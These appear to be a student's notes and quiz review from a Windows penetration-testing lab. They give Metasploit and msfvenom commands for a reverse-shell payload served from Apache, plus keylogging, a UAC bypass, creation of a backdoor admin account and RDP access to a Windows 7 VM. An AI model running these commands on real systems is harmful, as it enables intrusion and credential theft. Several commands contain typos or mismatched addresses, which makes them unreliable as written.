 
# Windows Penetration Lab and Quiz Review 
#### 3/21/22
## Quiz
1. A reverse shell is a type of shell in which the target machine communicates back to the attacking machine
  * more practical and widely used
3. Posting on a website is _**not**_ the only way to deliver the payload/malicious code
4. Only the `sessions` command can view and interact with a background session
5. Penetrations testing can evelauate the security of the system or network

* False Statements: cannot be used to identify the vulnerabilities let undetected by automated vulnerability scanners; is an unauthroized attempt to exploit a computer system
7. `screenshot` is the command used to create a printscreen from the target machine in the Meterpreter shell
8. `use exploit` command is used to select an exploit
9. In the `Windows Shell` environment attacker can use “net user” to create an account
10. The `set` command is used to select a payload

## Lab
### Task A
#### Kali Terminal 1

`
msfconsole // opens the shell
use exploit/multi handler
show options
set payload windows/meterpreter/reverse_tcp
set lhost 192.169.10.13  // ip address of the attacker
set lport 30122
show options` // shows us that we have the correct information added
exploit
`

#### Kali Terminal 2

`
msfvenom -p windows.meterpreter/reverse_tcp lhost=192.168.10.13 lport=30122 -f exe -o kboeh002.exe
`
// kboeh002.exe is the payload we just created

Next step is to deliver it to the fake website

`
service apache2 start
cp kboeh002.exe /var/www/html/
ls /var/www/html
`  // lists content so we can double check it has been properly uploaded


### Windows 7

Access the ip address of the attacker machine and /filename

`192.168.10.13/kboeh002.exe` which will download the payload, then you must run it

### Task B

#### Kali Terminal 1

`screenshot'

* if you use the `screenshare` command it will stream the desktop, similar to sharing a screen in discord or zoom

`keyscan` command to pick up keystrokes from target

`keyscan_start`

#### Windows 7

Type "This is Kristiana Boehmer, happy spring break!"

#### Kali Terminal 1

`keyscan_dump` // returns keystrokes

`keyscan_stop` // ends the keystroke record

#### Kali Terminal 3

// Create document with date

`
echo -e "$(date)" > ~/IMadeIt-kboeh002.txt
`

### Kali Terminal 1

* must specify souce and destination paths

`
upload IMadeIt-kboeh002.txt
`

It will upload by default to the current location in the system, if you want it to go to a different location...

`upload IMadeIt-kboeh002.txt 'C:\Users\Windows 7\Desktop'` // this will upload it to the desktop of the target

### Task C
#### Kali Terminal 1

we need to background the current session

`
background
sessions
` 
// allows you to see your current sessions

`
search bypassuac
`

Use the `use` command to apply the first given location

`
use exploit/windows/local/bypassuac
set session 1
show options
exploit
`

Now with this session, we have admin privilages
* anything with admin privilages is able to save in a system protected folder ('System32')

`
net user
shell
`

Want to be in the System 32 folder because it means you are an admin

`
net user /add Kristiana passWoRd
net localgroup administrator Kristiana /add
`
// adds administrators privilages to the account created

#### Windows 7 Terminal
`
netstat
`

* the return is the current sessions running in the background. the one with the attacker's IP address and port number is the attacker (it is under foreign address that you see this information)

#### Kali Terminal 4
`
rdesktop -h
rdesktop 192.168.10.13 -u Kristiana -p passWoRd
`
// Note: if you didn't add the admin privilages it won't work

You should now see a popout with the remote desktop of the Windows 7 VM and have all the normal access you would have if you logged into it directly
